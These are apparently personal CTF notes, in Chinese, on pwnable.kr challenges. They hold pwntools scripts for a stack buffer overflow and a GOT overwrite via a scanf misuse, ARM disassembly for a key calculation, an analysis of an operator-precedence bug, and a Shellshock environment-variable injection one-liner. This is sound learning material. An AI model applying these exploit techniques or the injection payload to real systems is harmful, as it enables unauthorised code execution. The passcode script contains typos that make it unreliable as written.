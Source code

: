 ## fd
read 函数标准输入
执行一个shell命令行时通常会自动打开三个标准文件，即标准输入文件（fd=0，stdin），通常对应终端的键盘；标准输出文件（fd=1，stdout）和标准错误输出文件（fd=2，stderr），这两个文件都对应终端的屏幕。进程将从标准输入文件中得到输入数据，将正常输出数据输出到标准输出文件，而将错误信息送到标准错误文件中。

## bof
溢出用 s 溢出覆盖 a1
```python
from pwn import *
a1=0xcafebabe
p=process('./bof')
pay='a'*(0x2c+0x8)+p32(a1)
p.sendline(pay)
p.interactive()
```
objdump -d XXX 反编译
objdump -R XXX got 表入口

## flag
就一个 upx 壳
upx -d XXX 蜕壳
用 ida64 查看就行
## passcode
scanf 函数不加 & 造成任意位置读写
这里修改 got 表
```python
from pwn import *
p=porcess('./passcode')
print_addr=0x804a000 # 其它几个函数也行
sys_addr=134514147 # %d 所以用 int
pay='a'(0x70-0x10)+p32(print_addr) # name 位置在 -0x70（%ebp） passcode1 在 -0x10（%ebp）
# name 只有 96 个字节，但输入的限制为 100，剩下的 4 个字节刚好可以覆盖 passcode1

p.sendline(pay)
p.sendline(str(sys_addr))

p.interactive()
```
## random
没有初始化随机种子，每次随机出来的数都一样
写个 c++ 程序发现都是是 1804289383，亦或后为 3039230856
输入即可
gcc XXX.cpp -o XXX
## input
- [x] 未完

scp -P 2222 inputpwn.c input@pwnable.kr:/tmp
## leg
arm 汇编
r0 存放返回值
pc 指向要执行的下一条语句的下一条语句
lr 指向函数返回后要执行的下一条语句
```asm
(gdb) disass main
Dump of assembler code for function main:
   0x00008d3c <+0>:	push	{r4, r11, lr}
   0x00008d40 <+4>:	add	r11, sp, #8
   0x00008d44 <+8>:	sub	sp, sp, #12
   0x00008d48 <+12>:	mov	r3, #0
   0x00008d4c <+16>:	str	r3, [r11, #-16]
   0x00008d50 <+20>:	ldr	r0, [pc, #104]	; 0x8dc0 <main+132>
   0x00008d54 <+24>:	bl	0xfb6c <printf>
   0x00008d58 <+28>:	sub	r3, r11, #16
   0x00008d5c <+32>:	ldr	r0, [pc, #96]	; 0x8dc4 <main+136>
   0x00008d60 <+36>:	mov	r1, r3
   0x00008d64 <+40>:	bl	0xfbd8 <__isoc99_scanf>
   0x00008d68 <+44>:	bl	0x8cd4 <key1>
   0x00008d6c <+48>:	mov	r4, r0
   0x00008d70 <+52>:	bl	0x8cf0 <key2>
   0x00008d74 <+56>:	mov	r3, r0
   0x00008d78 <+60>:	add	r4, r4, r3
   0x00008d7c <+64>:	bl	0x8d20 <key3>
   0x00008d80 <+68>:	mov	r3, r0
   0x00008d84 <+72>:	add	r2, r4, r3
   0x00008d88 <+76>:	ldr	r3, [r11, #-16]
   0x00008d8c <+80>:	cmp	r2, r3
   0x00008d90 <+84>:	bne	0x8da8 <main+108>
   0x00008d94 <+88>:	ldr	r0, [pc, #44]	; 0x8dc8 <main+140>
   0x00008d98 <+92>:	bl	0x1050c <puts>
   0x00008d9c <+96>:	ldr	r0, [pc, #40]	; 0x8dcc <main+144>
   0x00008da0 <+100>:	bl	0xf89c <system>
   0x00008da4 <+104>:	b	0x8db0 <main+116>
   0x00008da8 <+108>:	ldr	r0, [pc, #32]	; 0x8dd0 <main+148>
   0x00008dac <+112>:	bl	0x1050c <puts>
   0x00008db0 <+116>:	mov	r3, #0
   0x00008db4 <+120>:	mov	r0, r3
   0x00008db8 <+124>:	sub	sp, r11, #8
   0x00008dbc <+128>:	pop	{r4, r11, pc}
   0x00008dc0 <+132>:	andeq	r10, r6, r12, lsl #9
   0x00008dc4 <+136>:	andeq	r10, r6, r12, lsr #9
   0x00008dc8 <+140>:			; <UNDEFINED> instruction: 0x0006a4b0
   0x00008dcc <+144>:			; <UNDEFINED> instruction: 0x0006a4bc
   0x00008dd0 <+148>:	andeq	r10, r6, r4, asr #9
End of assembler dump.
(gdb) disass key1
Dump of assembler code for function key1:
   0x00008cd4 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cd8 <+4>:	add	r11, sp, #0
   0x00008cdc <+8>:	mov	r3, pc
   0x00008ce0 <+12>:	mov	r0, r3
   0x00008ce4 <+16>:	sub	sp, r11, #0
   0x00008ce8 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008cec <+24>:	bx	lr
End of assembler dump.
(gdb) disass key2
Dump of assembler code for function key2:
   0x00008cf0 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cf4 <+4>:	add	r11, sp, #0
   0x00008cf8 <+8>:	push	{r6}		; (str r6, [sp, #-4]!)
   0x00008cfc <+12>:	add	r6, pc, #1
   0x00008d00 <+16>:	bx	r6
   0x00008d04 <+20>:	mov	r3, pc
   0x00008d06 <+22>:	adds	r3, #4
   0x00008d08 <+24>:	push	{r3}
   0x00008d0a <+26>:	pop	{pc}
   0x00008d0c <+28>:	pop	{r6}		; (ldr r6, [sp], #4)
   0x00008d10 <+32>:	mov	r0, r3
   0x00008d14 <+36>:	sub	sp, r11, #0
   0x00008d18 <+40>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d1c <+44>:	bx	lr
End of assembler dump.
(gdb) disass key3
Dump of assembler code for function key3:
   0x00008d20 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008d24 <+4>:	add	r11, sp, #0
   0x00008d28 <+8>:	mov	r3, lr
   0x00008d2c <+12>:	mov	r0, r3
   0x00008d30 <+16>:	sub	sp, r11, #0
   0x00008d34 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d38 <+24>:	bx	lr
End of assembler dump.
(gdb) 
```
key1=0x8ce4
key2=0x8d08+0x4
key3=0x8d80
key1+key2+key3=108400
## mistake
提示操作优先级，然而完全没有想到
问题在于：
```cpp
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
	}
```
< 的优先级高于 = 
所以先比较，再对 fd 进行赋值
而 open 打开文件后返回值大于 0
所以 fd 必定等于 0
后面的 read pw_buf 就变成了 stdin
所以 pw_buf 和 pw_buf2 的值均可控
随便构造 pw_buf^1111111111=pw_buf2 即可

**以后一定要关注对 fd 的相关操作**
## shellshock
2014 年的一个 10 级漏洞
env var='() { :;}; cat flag' ./shellshock
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTIyNTE2NDI3NCwtNDMxODc0ODg4XX0=
-->